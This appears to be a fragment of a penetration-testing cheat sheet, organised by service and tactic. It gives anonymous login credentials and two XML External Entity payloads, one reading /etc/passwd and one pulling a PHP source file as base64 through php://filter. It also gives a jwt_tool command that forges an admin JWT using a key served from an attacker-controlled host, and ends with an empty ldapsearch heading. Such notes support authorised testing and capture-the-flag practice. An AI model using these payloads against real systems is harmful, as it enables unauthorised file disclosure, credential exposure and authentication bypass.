 ### anonymous login
- `username: anonymous`
- `password: anonymous`

---

# XML External Entity (XXE)

- service: http
- tactics: enumeration
- tactics: inital_access

## Read local files

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

## Read binary or files that otherwise can't be display (.php)

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
                <foo>
                <something>&xxe;</something>
                </foo>
```

---

# Java-Web-Token (JWT)

- service: http
- tactics: inital_access

## Sign JWT with own key - might need a webserver serving the private key

```python
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://<IP>/jwt.pub" -pc <admin_cap> -pv <1> -S rs256 -pr jwt.key
```

---

# ldapsearch
- service: ldap
- tactics: discovery
